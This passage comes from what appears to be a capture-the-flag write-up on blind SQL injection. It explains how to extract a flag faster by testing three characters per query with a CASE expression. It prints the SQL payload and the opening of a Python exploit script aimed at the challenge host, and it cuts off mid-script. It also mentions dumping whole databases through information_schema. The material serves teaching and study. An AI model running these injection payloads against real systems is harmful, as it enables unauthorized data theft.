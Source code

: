 Simply put, each character is continuously tested until it is found. It is simple and violent but effective. It takes about three to five minutes to run, and the execution process will be like this:

![](/img/sql-injection-in-action/p1.png)

If it is a challenge like this, where we know the table name and column name in advance, the execution time may be longer, but three to five minutes is still within an acceptable range. However, in actual cases, we may not know anything and need to go to the information_schema to retrieve various information before dumping the entire database.

Therefore, we need a more efficient approach.

### Speed up: Try three at once

In fact, if we observe carefully, we can control four types of return results:

1. home1 and home2 appear together (when the tag is 1)
2. Only home1 appears (when the tag is 2)
3. Only home2 appears (when the tag is 5)
4. Neither of them appear (when the tag is 10)

And in the previous attack method, we only used two of these situations. If we use all four, the speed will triple.

The way to use it is very simple. We can change from trying one at a time to trying three at a time, like this:

``` sql
(select case
  when (content like "a%") then 1
  when (content like "b%") then 2
  when (content like "c%") then 5
  else 10
end from flag)
```

One query can try three characters, and the speed is tripled. The script is as follows:

``` python
# exploit-search-3x.py
import requests
import datetime
import json
import urllib.parse
import time

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
result = 'cymetrics{'

start = time.time()
while True:
  found = False
  for i in range(0, len(char_set), 3):
    chars = char_set[i:i+3]
    while len(chars) < 3:
      chars += 'a'
    payload = f'''
    (select case
      when (content like "{result+chars[0]}%") then 1  
      when (content like "{result+chars[1]}%") then 2  
```